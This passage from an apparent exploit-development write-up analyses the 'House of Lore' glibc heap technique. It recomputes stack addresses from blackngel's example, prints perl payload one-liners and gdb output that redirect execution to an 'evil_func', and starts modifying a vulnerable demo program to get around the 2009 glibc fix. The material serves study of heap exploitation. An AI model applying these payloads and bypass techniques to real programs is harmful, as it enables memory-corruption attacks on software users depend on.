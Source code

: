 1. During the first malloc() call inside func1, bck points at 0xBFFFF348
2. When trying to access to bck->fd, it will fail, as it’s likely that 0x00251340 (the content of 0xBFFFF348) is not a valid memory address  

So, I think he either meant to write 0xBFFFF34C or he reported a wrong stack layout. Let’s say that the stack dump is OK and that 0xBFFFF34C will be used: during the first call bck will point at 0xBFFFF358 and, when trying to access to bck->fd, everything will work fine, as 0xBFFFF390 (0xBFFFF388 + 8) is writable.  

When the second malloc() request is performed, victim will be equal to 0xBFFFF34C and victim->bk to 0xBFFFF388 (an address with valid write permissions). At the end, the allocator will return 0xBFFFF354 (8 bytes before the return address in the stack).  

> The values I computed and blackngel’s ones differ by 0x00000010. I really hope I got this one right.

So, what’s left is the computation of the new return address, which, in blackngel’s own scenario, happened to be at 0x08048BA4    

When he put everything’s together, what he got is (I slightly adapted his output):  
```
 black@odisea:~$ perl -e 'print "BBBBBBBB". "\xa4\x8b\x04\x08"' > evil.in  

...

(gdb) run `perl -e 'print "A"x28 . "\x4c\xf3\xff\xbf"'` < evil.in

Buff1 -> [ 0x804ffe8 ]
Buff2 -> [ 0x8050000 ]
Buff3 -> [ 0x8050088 ]

Buff4 -> [ 0x8050190 ]
LB1 -> [ 0x8050000 ]
LB2 -> [ 0xbffff344 ]

Which is your favourite hobby?  

This is an evil function. You become a cool hacker if you are able to execute it.  

Program received signal SIGSEGV, Segmentation fault.  

0x08048bb7 in evil_func ()
(gdb)
```
In 2009, this vulnerability was patched with this [commit](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=f6887a0d9a55f5c80c567d9cb153c1c6582410f9), which checks the usual consistency between the pointers of the list. At this point, blackngel gives a great hint:  

> This check can still be overcome if you control an area into the stack and you can write an integer such that its value is equal to the address of the recently free chunk (victim). This must happen before the next call to malloc( ) with the same size requested.  

I tried to do this, but I found out that it’s not the only thing required: in fact you need to be able to control three integer values inside the func1 stack frame. However, yes, with this additional requirement, it’s possible to have the House of Lore even with glibc 2.20. What I did is to modify the func1 in the following way:  
``` c
 void func1()
{
  char *lb1, *lb2;

  unsigned int a = 0xAAAAAAAA;
  unsigned int b = 0xBBBBBBBB;
  unsigned int c = 0xCCCCCCCC;

  lb1 = (char *) malloc(128);
  printf("LB1 -> [ %p ]", lb1);
```